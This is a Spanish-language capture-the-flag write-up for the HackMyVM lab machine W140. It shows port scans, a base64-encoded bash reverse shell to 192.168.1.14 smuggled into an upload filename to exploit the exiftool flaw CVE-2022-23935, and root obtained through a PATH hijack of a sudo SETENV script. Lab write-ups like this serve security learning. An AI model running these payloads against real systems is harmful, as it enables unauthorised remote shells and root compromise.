






Red Team & Ctf Pl4yer
HackMyVm - W140
Autor: Powerfull

Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.15
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -p 22,80 192.168.1.15
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 fffdb20f38881a44c42b642cd297f68d (RSA)
| 256 ca5054f7244ea7f10646e72230ec95b7 (ECDSA)
|_ 256 0968c062831ef15dcb29a65eb472aacf (ED25519)
80/tcp open http Apache httpd 2.4.54 ((Debian))
|_http-title: w140
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
HTTP
Compruebo el menu de navegación y encuentro service.html.

En service.html hay una herramienta para subir archivos.

Si intento subir un archivo php me muestra el siguiente error:

Subo una imagen con extensión JPEG al subir la foto la convierte en texto.

CVE-2022-23935
https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429
Si el nombre de archivo pasado a exiftool termina con un carácter de tubería | y existe en el sistema de archivos, el archivo se tratará como una tubería y se ejecutará como un comando del sistema operativo.
BurpSuite
Con burp subo la imagen para modificar el filename ya que este es el que se tiene que usar para hacer la inyección de comandos, pero antes de nada hay que codificar la shell para que funcione bien.
❯ echo -n "bash -i >& /dev/tcp/192.168.1.14/1337 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTQvMTMzNyAwPiYx

echo -n 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTQvMTMzNyAwPiYx' | base64 -d | bash |
Una vez obtengo la shell me muevo al directorio /var/www en este hay el archivo oculto llamado .w140.png si lo abrimos contiene un qr con las credenciales de acceso del usuario ghost, para leer el qr yo suelo usar esta web:
https://online-barcode-reader.inliteresearch.com/
r00t
El usuario ghost tiene permisos para cambiar variables de entorno al lanzar /opt/Benz-w140.
ghost@w140:~$ sudo -l
User ghost may run the following commands on w140:
(root) SETENV: NOPASSWD: /opt/Benz-w140
Archivo Benz-w140.
ghost@w140:/opt$ cat Benz-w140
#!/bin/bash
. /opt/.bashre
cd /home/ghost/w140
# clean up log files
if [ -s log/w140.log ] && ! [ -L log/w140.log ]
then
/bin/cat log/w140.log > log/w140.log.old
/usr/bin/truncate -s@ log/w140.log
fi
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
Al final del script hay el comando find, este no usa la ruta absoluta y podemos abusar de esto para conseguir el root.
ghost@w140:~$ cd /tmp
ghost@w140:/tmp$ touch find
ghost@w140:/tmp$ echo "bash" > find
ghost@w140:/tmp$ chmod +x find
Path Hijacking
ghost@w140:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
ghost@w140:/tmp$ sudo PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games /opt/Benz-w140
root@w140:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
Y hasta aquí la máquina w140, la primera máquina del sr Powerfull